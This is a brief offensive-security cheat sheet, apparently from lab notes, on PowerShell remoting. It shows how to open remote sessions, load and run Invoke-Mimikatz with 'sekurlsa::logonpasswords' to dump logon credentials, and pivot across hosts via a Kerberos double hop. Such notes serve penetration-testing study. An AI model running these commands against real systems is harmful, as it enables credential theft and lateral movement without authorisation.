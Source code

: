 # Powershell

## Commands

### Create a remote session

```csharp
$sess = New-PSSession -ComputerName lab.test.local
```

### Load a script 

```csharp
Invoke-Command  -FilePath{C:\temp\mimi.ps1} -Session $dc
```

### Execute the script

```csharp
 Invoke-Command -ScriptBlock{invoke-mimikatz -command '"sekurlsa::logonpasswords"'} $dc
```

#### Using credentials \(password needed\)

```csharp
Invoke-Command -ScriptBlock {ipconfig} -ComputerName target -Credential TEST\user
```

### Kerberos double hop

#### Execute command from remote session from target into target2

```csharp
$sess = New-PSSession -ComputerName lab.test.local
Invoke-Command -ScriptBlock{ $db = New-PSSession -ComputerName target2} -Session $sess
```

